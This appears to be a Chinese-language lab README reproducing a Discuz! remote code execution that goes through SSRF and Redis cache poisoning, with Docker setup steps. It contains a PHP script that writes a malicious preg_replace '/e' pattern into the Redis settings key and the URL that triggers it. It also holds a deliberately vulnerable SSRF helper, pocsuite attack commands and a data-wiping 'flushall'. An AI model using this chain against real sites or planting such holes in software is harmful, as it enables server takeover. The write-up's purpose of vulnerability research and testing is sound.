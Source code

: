 # Discuz!利用SSRF+Redis缓存应用导致有条件代码执行
## 0x00漏洞简介
当dz设置使用缓存后，初始化时会把缓存内容加入全局变量$_G.而在调用缓存的地方source/fucntion/function_core.php中:
```
function output_replace($content) {
        ...
        if(...){
        ....
        $content = preg_replace($_G['setting']['output']['preg']['search'], $_G['setting']['output']['preg']['replace'],$content);
        }
        return $content;
}
```
其中，关键点的两个变量我们都可以通过redis修改:
```
$_G['setting']['output']['preg']['search']=”/.*/e”;
$_G['setting']['output']['preg']['replace']=”phpinfo();”;
```
dz使用redis时，全局变量$_G[‘setting’]放在xxxx_setting中的，其中前缀就是前面config_global.php中的prefix的值.也可以在redis-cli中通过如下命令查看：
```
keys *          #查看所有键
keys *_setting  #模糊查询的方式查找匹配的键
```
得到键名后通过以下方式修改本地缓存：
```
<?php
$a['output']['preg']['search']['plugins'] = "/.*/e";
$a['output']['preg']['replace']['plugins'] = "phpinfo();";
$a['rewritestatus']['plugins']=1;
$setting = serialize($a);
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->set("kQbXlj_setting",$setting);
?>
```
复写缓存后访问如下地址就能发现成功getshell:
```
/discuz/forum.php?mod=ajax&inajax=yes&action=getthreadtype
```
getshell使我们破坏了网页缓存的数据，会导致网站访问异常，可在redis-cli中刷新重置数据:
```
flushall
```
## 0x01环境搭建
### 获取镜像
环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!  
其中MySQL和Redis的镜像可用以下命令从官方获取：
```
docker pull mysql
docker pull redis
```
鉴于国外源的镜像仓库速度缓慢且有时容易中断无响应，建议通过[DaoCloud](https://www.daocloud.io/)拉取镜像  

[安装过phpredis的Discuz!下载地址](http://pan.baidu.com/s/1nvGm46d)  

从discuz.tar.gz恢复出Discuz!镜像：

```
gzip -dc discuz.tar.gz | docker load
```
### 运行镜像
Kali(Debian) + Docker(mysql + redis + discuz)
```shell
docker run --name dz-mysql -e MYSQL_ROOT_PASSWORD=root -d mysql

docker run --name dz-redis -d redis

docker run --name dz-ssrf --link dz-mysql:mysql -p 8888:80 -d dz-redis-init apache2 "-DFOREGROUND"
```
访问127.0.0.1:8888进行Discuz!的安装.  

安装过后将config/config_global.php中redis的地址和端口改为redis容器的地址和端口（可用docker inspect dz-redis查看IP）.  

在后台中 全局 -> 性能优化 -> 内存优化 中查看redis是否被启用，若已启用则搭建完成.  

## 0x02漏洞验证
在/discuz根目录下放置了ssrf_gopher.php用于构造ssrf.内容如下:
```php
<?php
$ch = curl_init();
$url = $_GET['ssrf'];
echo $url.'<br/>';

curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);

$output = curl_exec($ch);
curl_close($ch);
print_r($output);
?>
```
验证：
```shell
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --verify
```
攻击：
```shell
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --attack
```
## 0x03参考
* [pocsuite](http://pocsuite.org/)
* [PoC编写规范及要求说明](https://github.com/knownsec/Pocsuite/blob/master/docs/CODING.md)
* [Seebug/ssvid-91879](https://www.seebug.org/vuldb/ssvid-91879)
* [imp0wd3r](https://github.com/imp0wd3r)
* [C1tas](https://github.com/C1tas)
* [漏洞检测的那些事儿](http://drops.wooyun.org/tips/16431)
